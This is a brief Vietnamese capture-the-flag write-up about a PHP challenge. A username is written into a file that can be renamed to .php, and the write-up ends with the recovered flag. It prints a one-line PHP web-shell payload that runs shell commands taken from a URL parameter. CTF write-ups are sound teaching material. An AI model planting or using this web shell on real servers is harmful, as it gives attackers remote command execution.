



<h1>PHP có làm em lo lắng</h1>

Server lấy tên người dùng và ghi vào 1 file, sẽ ra sao nếu như tên người dùng là đoạn code php và extension file là .php ?

```
username: <?Php system($_GET['cmd']);?>
```


Thay đổi tên file



Kết quả:



Lấy Flag



```
FLAG EHC{10v3_y0u_n0c_n0c_7cae0dbe8b9843073e076fc59c503717}
```